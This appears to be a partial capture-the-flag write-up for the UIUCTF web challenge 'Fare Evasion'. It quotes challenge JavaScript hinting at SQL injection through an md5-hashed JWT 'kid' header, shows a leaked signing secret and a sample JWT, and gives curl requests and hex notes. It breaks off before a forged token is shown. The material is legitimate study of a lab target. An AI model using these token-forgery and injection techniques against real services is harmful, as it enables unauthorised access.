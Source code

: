 # Fare Evasion - Web

## Description

SIGPwny Transit Authority needs your fares, but the system is acting a tad odd. We'll let you sign your tickets this time!

<https://fare-evasion.chal.uiuc.tf/>

## Solution

```javascript

async function pay() {
    // i could not get sqlite to work on the frontend :(
    /*
    db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
    ???????
    */
    const r = await fetch("/pay", { method: "POST" });
    const j = await r.json();
    document.getElementById("alert").classList.add("opacity-100");
    // todo: convert md5 to hex string instead of latin1??
    document.getElementById("alert").innerText = j["message"];
    setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
}
```

hashed _RòsÜxÉÄÅ´\ä secret: a_boring_passenger_signing_key_?

0852c3b21e73c39c78c389c38402c385c2b4125cc3a4

access_token: eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs

https://github.com/ticarpi/jwt_tool

```bash
┌──(kali㉿kali)-[~]
└─$ curl https://fare-evasion.chal.uiuc.tf/pay --data "junk=junk"
{"message":"Transaction failed. Where's your token?","success":false}

┌──(kali㉿kali)-[~]
└─$ curl https://fare-evasion.chal.uiuc.tf/pay --cookie "access_token=eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs" --data "junk"
{"message":"Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?","success":false}
```

_  \b R  f2 1e s  dc x  c9 c4 02 c5 b4 12 \  e4

5f 08 52 f2 1e 73 dc 78 c9 c4 02 c5 b4 12 5c e4

"passenger_key" -> 5f0852f21e73dc78c9c402c5b4125ce4